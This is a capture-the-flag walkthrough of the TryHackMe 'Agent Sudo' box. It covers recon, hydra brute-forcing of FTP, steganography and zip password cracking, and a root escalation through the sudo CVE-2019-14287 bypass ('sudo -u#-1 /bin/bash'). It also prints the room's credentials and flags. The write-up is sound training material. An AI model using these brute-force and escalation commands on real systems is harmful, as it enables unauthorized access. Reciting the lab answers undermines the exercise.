## TL;DR

In this challenge we can get data using `user-agent` set to C. Then, we grab the files from the ftp server, and crack the hidden message inside `cute-alient.jpg` using `stegseek`.
We escalate privilege to root using `CVE-2019-14287`, and gain root shell.

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oN nmap.txt -Pn
```



We can see port `21` with ftp, port `22` with ssh and port `80` with apache http server.

```bash
PORT      STATE    SERVICE VERSION
21/tcp    open     ftp     vsftpd 3.0.3
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp    open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
42128/tcp filtered unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### Find user name chris using user agent set to C

When we going to root page, we can see this:



So, we need to give some `user-agnet` that'll be our secret user codename.

From the question on the CTF page, I know this will be some sort of redirect, probably with `302` status code.
Let's fuzz it using `ffuf`.



The flag `-H` is for headers, and the flag `-mc` it to match only 302 status codes.

```bash
┌──(agonen㉿kali)-[~/thm/AgentSudo]
└─$ ffuf -u "http://$target/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.6.231/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 218, Words: 13, Lines: 19, Duration: 97ms]
:: Progress: [87651/87651] :: Job [1/1] :: 241 req/sec :: Duration: [0:04:19] :: Errors: 0 ::
```

Now, we'll use `curl` to get the secret message for agent `C`. The flag `-i` is for showing the headers, `-L` for following redirect and `-A` for user agent. 

```bash
──(agonen㉿kali)-[~/thm/AgentSudo]
└─$ curl http://$target/ -iL -A "C"
HTTP/1.1 302 Found
Date: Fri, 14 Nov 2025 12:54:33 GMT
Server: Apache/2.4.29 (Ubuntu)
Location: agent_C_attention.php
Content-Length: 218
Content-Type: text/html; charset=UTF-8

HTTP/1.1 200 OK
Date: Fri, 14 Nov 2025 12:54:33 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 177
Content-Type: text/html; charset=UTF-8

Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```

As we can see, `chris` needs to change its password. 



### Login to ftp server and crack password of steghide in cute-alien.jpg to achieve ssh credentials

Let's use hydra to brute force the password of user `chris` in the ftp service.

```bash
──(agonen㉿kali)-[~/thm/AgentSudo]
└─$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://$target
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-11-14 15:00:34
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.9.7:21/
[21][ftp] host: 10.10.9.7   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-11-14 15:01:33
```

I tried the same process on the `ssh` service, but no password was found (at least from rockyou.txt).



So, now we have those credetnails for ftp login:
```bash
chris:crystal
```

Let's use `wget -m` to fetch the all the files from the ftp service:
```bash
wget -m ftp://chris@$target/ --password crystal
```

Next we can find the file `To_agentJ.txt`, let's read it.
```bash
┌──(agonen㉿kali)-[~/thm/AgentSudo/10.10.9.7]
└─$ cat To_agentJ.txt             
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

So, there is probably some message hidden using `steghide` inside the pictures.

we can find hidden content inside `cute-alien.jpg`, however, we need the passphrase.



We can use `stegseek`, super fast tool to crack passwords:

```bash
stegseek cute-alien.jpg -wl /usr/share/wordlists/rockyou.txt
```



And now we got this message:
```bash
┌──(agonen㉿kali)-[~/thm/AgentSudo/10.10.9.7]
└─$ cat cute-alien.jpg.out 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

Okay, we got the credentials of `james`, probably for ssh.
Let's try to use these credentials:
```bash
james:hackerrules!
```

The login success, we're connected as james.



And grab the user flag
```bash
james@agent-sudo:~$ cat user_flag.txt 
b03d975e8c92a7c04146cfa7a5a313c7
```

### Find hidden content inside cute-alien.png using binwalk and crack zip password using john

Although `cutie.png` not contains steghide staff, still he is quite large, almost like `cute-alien.png`.



So, I decided to check if there is some more hidden data using `binwalk`:
```bash
┌──(agonen㉿kali)-[~/thm/AgentSudo/10.10.9.7]
└─$ binwalk cutie.png          

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

Okay, let's extract this:
```bash
binwalk -e cutie.png
```



We can see 3 files, two zip files and one data file.
The third file, `8702.zip`, is encrypted with `AES`, let's crack him using `john`:

```bash
┌──(agonen㉿kali)-[~/thm/AgentSudo/10.10.9.7/_cutie.png.extracted]
└─$ zip2john 8702.zip > hashes.txt
                                                                                                                                                             
┌──(agonen㉿kali)-[~/thm/AgentSudo/10.10.9.7/_cutie.png.extracted]
└─$ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alien            (8702.zip/To_agentR.txt)     
1g 0:00:00:01 DONE (2025-11-14 15:35) 0.6024g/s 14804p/s 14804c/s 14804C/s michael!..280789
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```



And now extracting using `7z`:
```bash
┌──(agonen㉿kali)-[~/thm/AgentSudo/10.10.9.7/_cutie.png.extracted]
└─$ 7z x 8702.zip -p alien


7-Zip 25.01 (x64) : Copyright (c) 1999-2025 Igor Pavlov : 2025-08-03
 64-bit locale=en_US.UTF-8 Threads:128 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 280 bytes (1 KiB)

Extracting archive: 8702.zip
--
Path = 8702.zip
Type = zip
Physical Size = 280


No files to process
Everything is Ok

Files: 0
Size:       0
Compressed: 280
```

and the message:
```bash
┌──(agonen㉿kali)-[~/thm/AgentSudo/10.10.9.7/_cutie.png.extracted]
└─$ cat To_agentR.txt 
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

We can decode the base64 string:
```bash
┌──(agonen㉿kali)-[~/thm/AgentSudo/10.10.9.7/_cutie.png.extracted]
└─$ echo 'QXJlYTUx' | base64 -d
Area51   
```

So, we got the password `Area51`.

### Privilege Escalation to Root

Let's check what `james` can run with `sudo`:
```bash
james@agent-sudo:~$ sudo -l
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

we can find this exploitdb [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502) regard this line `(ALL, !root) /bin/bash`, I just pasted this in google.

We can just paste this command:
```bash
sudo -u#-1 /bin/bash
```

Remember that `james` password is `hackerrules!`



```bash
root@agent-sudo:~# id
uid=0(root) gid=1000(james) groups=1000(james)
root@agent-sudo:~# cat /root/root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```